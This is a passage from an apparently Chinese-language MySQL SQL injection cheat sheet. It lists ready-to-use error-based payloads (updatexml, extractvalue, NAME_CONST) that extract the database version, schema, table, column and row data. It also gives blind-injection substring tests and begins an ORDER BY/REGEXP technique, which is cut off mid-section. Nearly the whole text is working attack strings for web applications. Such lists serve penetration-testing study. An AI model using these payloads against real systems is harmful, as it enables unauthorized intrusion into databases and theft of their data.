 短payload:

```sql
' and updatexml(null,concat(0x0a,version()),null)-- -
' and updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```


### Extractvalue 函数报错注入

要求MySQL >= 5.1

```sql
?id=1 AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)))--
```


### MYSQL 基于错误的注入 - NAME_CONST 函数（仅适用于常量）

要求MySQL >= 5.0

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```


## MYSQL 盲注

### MySQL盲注与子字符串等价

```sql
?id=1 and substring(version(),1,1)=5
?id=1 and right(left(version(),1),1)=5
?id=1 and left(version(),1)=4
?id=1 and ascii(lower(substr(Version(),1,1)))=51
?id=1 and (select mid(version(),1,1)=4)
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
?id=1 AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

### 使用二进制查询和REGEXP在MySQL盲注中的ORDER BY子句

此查询基本上根据EXISTS()返回1或0来按一列或多列排序。
为了使EXISTS()函数返回1，REGEXP查询需要匹配，这意味着你可以逐个字符地暴力破解盲值并从未经直接输出的数据库中泄露数据。
